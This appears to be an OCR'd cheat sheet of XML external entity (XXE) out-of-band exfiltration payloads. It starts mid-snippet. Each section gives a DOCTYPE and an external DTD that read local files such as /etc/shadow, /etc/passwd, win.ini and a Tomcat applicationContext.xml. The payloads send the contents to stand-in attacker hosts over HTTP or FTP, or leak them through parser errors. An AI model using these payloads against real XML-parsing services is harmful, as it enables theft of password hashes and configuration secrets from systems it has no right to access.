 ```
%param1;
%exfil;
]>

## External dtd: ##

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">

---------------------------------------------------------------
OoB extraction
---------------------------------------------------------------

<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
]>

## External dtd: ##
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">

-----------------------------------------------------------------------
OoB extra ERROR -- Java
-----------------------------------------------------------------------
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>
## External dtd: ##

<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;


-----------------------------------------------------------------------
OoB extra nice
-----------------------------------------------------------------------

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
 
## External dtd: ##
 
<!ENTITY all "%start;%stuff;%end;">

------------------------------------------------------------------
```